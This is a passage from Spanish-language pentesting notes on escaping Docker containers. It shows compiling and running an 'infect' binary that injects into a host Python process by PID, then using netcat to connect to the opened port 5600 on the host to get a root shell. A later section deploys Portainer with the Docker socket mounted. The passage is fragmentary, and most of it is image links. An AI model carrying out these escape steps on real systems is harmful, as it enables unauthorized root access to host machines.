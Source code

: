 ```bash

}
```

```bash 
❯ gcc infect.c -o infect            # Después lo compilamos en la maquina victima 
❯ ps -faux | grep python            # Buscamos el PID que le pasaremos al archivo, para este caso es el 14326 ya que siempre cambia 
❯ ./infect 14326
```

![](Pasted%20image%2020230531113253.png)

Esto significa que te abre el puerto 5600 en la maquina host. 
```bash 
❯ nc 172.17.0.1 5600                 # Nos conectamos al puerto 5600 del contenedor y esta es la direccion del host, por lo tanto seremos root en el host 
❯ script /dev/null -c bash           # Activar la bash 
❯ Ctrl + z
# Le damos el tratamiento a la bash 
```




* Forma 3 
Portainer: Es una herramienta web open-source que permite gestionar contenedores Docker. Permite administrar contenedores de forma remota o local, la infraestructura de soporte y todos los aspectos de las implementaciones de Kubernetes, Docker standalone y Docker Swarm. 

```bash 
❯ docker run -dit -p 8000:8000 -p 9000:9000 --name portainer --restart=always -v /var/run/docker.sock:/var/run/docker.sock -v /docker/portainer/data:/data portainer/portainer-ce               # Nos crearemos un contenedor y descargara la imagen por internet 

# Nos desplegara un entorno grafico por el puerto 9000
```

![](Pasted%20image%2020230531122053.png)

![](Pasted%20image%2020230531123203.png)

![](Pasted%20image%2020230531123312.png)

![](Pasted%20image%2020230531123342.png)

![](Pasted%20image%2020230531123435.png)

![](Pasted%20image%2020230531123516.png)

![](Pasted%20image%2020230531123551.png)

![](Pasted%20image%2020230531123804.png)

